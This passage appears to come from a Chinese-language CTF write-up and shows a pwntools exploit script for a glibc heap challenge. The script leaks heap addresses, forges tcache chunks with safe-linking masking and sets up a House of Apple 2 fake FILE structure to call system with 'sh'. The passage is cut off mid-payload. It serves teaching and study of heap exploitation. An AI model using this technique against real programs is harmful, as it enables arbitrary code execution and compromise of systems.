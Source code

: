 ```python
add(1, b"a" * 0x48 + p64(0xcf1))
 
free()
add(2, b"a")
free()
add(1, b"aaaa")
free()
add(2, b"aaaa")
free()
add(1, b"a" * 0x50)
show()
io.recvuntil(b"Data: " + b"a" * 0x50)
heap_base = u64(io.recvuntil(b"\n", drop=True).ljust(8, b"\x00")) << 12
log.success(f"heap_base : {heap_base:#x}")
free()
 
add(1, b"a" * 0x10 + p64(0) + p64(0x31) + p64(heap_base+0x2c0) * 2 +  b"a" * 0x10 + p64(0x30) + p64(0xd00))
free()
add(2, b"a" * 0x50 + p64(0x90) + p64(0x10) + p64(0x00) + p64(0x11))
free()
add(1, flat({
    0x10: 0,
    0x18: 0x91,
    0x20: heap_base + 0x380,
    0x28: libc_base + 0x219ce0,
}, filler=b"\x00"))
 
show2(0x1000)
free()
 
add(1, flat({
    0x10 : {
            0x00: 0,
            0x08: 0x91,
            0x10: heap_base + 0x2c0,
            0x18: heap_base + 0x2c0 + 0x30,
             
            0x30: 0,
            0x38: 0x91,
            0x40: heap_base + 0x2c0,
            0x48: heap_base + 0x2c0 + 0x50,
 
            0x50: 0,
            0x58: 0x91,
            0x60: heap_base + 0x2c0 + 0x30,
            0x68: libc_base + 0x219d60
        }
    }
, filler=b"\x00"))
free()
add(2, b"aaaa")
free()
_IO_list_all = libc_base + 0x21a680
#system = 0x50d60 + libc_base
system=libc_base + 0x219ce0  - (0x7ef51f33dcc0-0x7ef51f16b000)+libc.symbols["system"]
fake_file = heap_base + 0x2e0
# 见上文 House of apple 2 中解释
add(1, b"X"*0x10+p64(0) + p64(0x71) + p64((heap_base + 0x2d0 + 0x70)^((heap_base)>>12)))
free()
# 这里是布置 House of apple 2
add(2, flat({
    0x0+0x10: b"  sh;",
```